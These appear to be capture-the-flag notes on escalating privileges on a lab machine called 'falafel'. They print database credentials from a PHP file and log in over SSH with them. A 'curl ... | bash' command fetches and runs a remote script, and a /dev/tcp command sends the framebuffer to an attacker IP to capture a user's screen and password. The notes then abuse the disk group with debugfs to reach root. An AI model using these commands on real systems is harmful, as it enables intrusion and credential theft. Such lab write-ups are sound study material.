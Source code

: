 # Exploring the System 
```bash
www-data@falafel:/var/www/html$ cat authorized.php 
<?php
if (session_status() == PHP_SESSION_NONE) {
    session_start();
}

if(isset($_SESSION)) {
        if(basename($_SERVER['PHP_SELF']) == 'upload.php'){
                if($_SESSION['role'] != 'admin'){
                        header('Location: profile.php');
                        exit();
                }
        }
        else{ //basename($_SERVER['PHP_SELF']) == 'profile.php'
                if($_SESSION['role'] == ''){
                        header('Location: login.php');
                }
        }
}
else{
        header('Location: login.php');
        exit();
}
www-data@falafel:/var/www/html$ cat connection.php 
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafelIsReallyTasty');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>

```

```bash
curl http://10.10.14.21/linpeash.sh | bash
```
![[Pasted image 20211126102222.png]]
Yossi are physical logon in machine


Login on SSH as moshe

Creds: moshe:falafelIsReallyTasty
moshe has the group video, can see the monitor of a physical user
![[Pasted image 20211126100843.png]]

Getting the file fb0 to see the monitor of Yossi
```bash
moshe@falafel:/home$ cat /dev/fb0 > /dev/tcp/10.10.14.21/9001
```

Grabbing the resolution of monitor
![[Pasted image 20211126102705.png]]

Open on gimp
![[Pasted image 20211126102854.png]]

![[Pasted image 20211126102929.png]]

Creds: yossi:MoshePlzStopHackingMe!
![[Pasted image 20211126103446.png]]

Yossi has the group disk, can see all files on the disk
![[Pasted image 20211126104551.png]]

Using debugfs,  can have acess to root directory
![[Pasted image 20211126104856.png]]
